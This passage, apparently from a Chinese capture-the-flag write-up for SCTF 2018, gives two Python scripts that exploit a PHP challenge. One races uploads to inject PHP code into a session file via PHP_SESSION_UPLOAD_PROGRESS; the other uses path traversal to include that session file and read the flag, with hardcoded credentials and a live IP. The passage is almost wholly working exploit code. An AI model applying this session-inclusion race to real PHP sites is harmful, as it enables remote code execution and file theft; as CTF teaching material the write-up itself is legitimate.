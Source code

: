 图10:

![](https://xzfile.aliyuncs.com/media/upload/picture/20180622171313-7ddab932-75fc-1.png)

`session.upload_progress.enabled = on` 说明可以覆盖session

`clean up`说明需要竞争

图11：

![](https://xzfile.aliyuncs.com/media/upload/picture/20180622171313-7dcda382-75fc-1.png)

sessionupload.py

```
#!coding:utf-8
import requests
import time

url = 'http://116.62.71.206:52872/?f=login.php'
data = {'name':'admin','pass':'sctf2018_h656cDBkU2'}

r = requests.post(url,data = data)
PHPSESSID = r.cookies['PHPSESSID']
print 'input the PHPSESSID in include.py' +'\n' + PHPSESSID
time.sleep(10)

while 1:
    url = 'http://116.62.71.206:52872/?f=upload_sctf2018_C9f7y48M75.php'
    files = { 
    "PHP_SESSION_UPLOAD_PROGRESS" : (None,'<?php echo file_get_contents("/tmp/flag_56CcE97QGNxDEXNpW3HY");?>'),  

    "upload" : ("tmp.jpg", open("tmp.png", "rb"), "image/png"), 

    "submit" : (None,"submit")
    }  
    #proxies = {'http':'http://127.0.0.1:8080'}
    headers = {'Cookie':'PHPSESSID=' + PHPSESSID}
    r = requests.post(url,files = files , headers = headers)
    print r.text
    print PHPSESSID
    #开了cleanup，需要竞争，并且保持回话的session
```

include.py

```
#!coding:utf-8

import requests
PHPSESSID = 'qc2kavokdjiiepu283hduivod2'
while 1:
    url = 'http://116.62.71.206:52872/?f=aa://../../../../var/lib/php/sessions/sess_' + PHPSESSID
    print url
    r = requests.get(url)
    if 'SCTF' in r.text:
        print r.text
        break
```

